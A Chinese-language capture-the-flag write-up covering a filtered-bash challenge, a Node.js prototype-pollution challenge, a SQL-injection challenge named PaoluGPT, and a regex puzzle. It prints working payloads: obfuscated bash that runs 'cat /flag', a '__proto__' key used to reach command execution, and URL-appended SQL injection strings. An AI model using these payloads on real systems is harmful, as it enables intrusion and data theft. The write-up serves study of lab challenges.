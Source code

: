 ```sh
__=$_                                         # __=input
___=~                                         # ___=/players
____=$-                                       # ____=hB
_____=$___$___                                # _____=/players/players
______=${_____:8:1}                           # ______=/
_______=`${___:2:1}${___:7:1} $______`        # _______=$(ls /)
${_______:15:1}${___:3:1}${_______:7:1} $______${_______:17:4} # cat /flag
```
#### 解题过程
一开始是懵逼的，但找到未被禁用的字符，并且想到不同长度的 `_` 可以用作不同变量名、先前设置的变量可以一直留在环境中之后，豁然开朗。

可惜好景不长，一开始 `/` 因为不能用 0，死活拼不出来，直到意识到变量可以拼两遍，从后面一遍提取。想到的时候骂了自己一句傻逼。

接下来是拼不出 `c`。我第一个想到的方案是，用 `~user` 的方式取到其他用户的家目录名去拼，也找到了一个叫 lp 的用户，其家目录里面有 c. 可惜试了半天都无法实现二次展开，`~lp` 一直都无法展开为需要的目录，只得放弃。然后就想到了 `ls /`，一看里面啥字母应有尽有，还直接有 `flag`，大腿拍断x3

> 后来听群友说，变量名用 `_1` `_2` 就可以，不需要搞 brain fuck 弄一堆下划线😅
## Node.js is Web Scale
#### 最终操作
1. View Source 后可以看出能够通过 `__proto__` 将数据添加到 Array 原型
2. 回到网页上，Set key=`__proto__.a` value=`cat /flag`
3. 点击 View Source，将最后的 `cmd=execute` 改为 `cmd=a` 即可
#### 解题过程
这题其实一开始我就意识到有 `__proto__` 这么回事，还试过过 `cmd=__proto__` 发现可以拿到一个 object 让程序崩溃，但就可惜没想到通过它传递数据。

看着解出的人数一路飙涨，我就想我脑子该不会有问题吧这都做不出来。又去搜了一下 MDN 对 prototype 的介绍，看到“prototype chain”这个词的一瞬间，解法就出来了。果然我还是认知太浅薄了。
## PaoluGPT
#### 最终操作
1. 查看题目附件，了解数据库结构里面有 `contents`、`shown` 两列，且当前数据是过滤了 `shown=true` 的
2. 随便点一个聊天记录链接，网址最后加上 `' and 0=1 or contents like '%flag%';--`，页面拉到最底，出第一个 flag
3. 重置网址，网址最后改为 `' and 0=1 or shown=false;--` 出第二个 flag
#### 解题过程
看到数据库结构之后手写网址注入就行，不需要上工具，很快啊。

构造思路是，先用 `'` 关闭查询字符串来满足 SQL 语法，然后用 `and 0=1` 让现有的 conversation id 条件无效，再用 `or` 补充自己要的查询条件就可以了。`;--` 是结束当前语句，将代码中结尾的 `'` 视作注释，避免语法错误。最后这个 `;--` 是现查的，自己折腾了一会儿关闭引号，发现远不如这个方便。

另外查了下其他注入手法，发现有用 union 完全打破现有查询的。我用 union select 试了下找出有多少个 `shown=false` 的条目、除了 `messages` 是否还有其他表，都没啥用，还是基于最初代码里给出的结构就可以做了。

~~相比于注入，要注意到在 114514 行的空格之后有 flag 才比较难一点。要不是 DevTools 里面有行号，我早就把网页关了~~
## 强大的正则表达式
数学苦手，只会做第一问。
#### 最终操作 | 解题过程
人工计算 16 的倍数，人工归纳后几位的规律，直到之前的数字没有规律（0-9 都出现）为止。

规律按位数从少到多来看。只将最后一位视为规律的话，之前的位数仍有规律且太复杂，无法匹配。将末两位视为规律，用 `for i in $(seq 1 10000); do echo $((16*$i));done|grep '00$'` 观察到特定尾数下前面数字的规律。可以发现有 `00|16|32|48|64|80|96` 或 `12|28|44|60|76|92` 或 `08|24|40|56|72|88` 或 `04|20|36|52|68|84` 这四组情况，每组前面的数字都是同样的，且以 4 为规律递增。

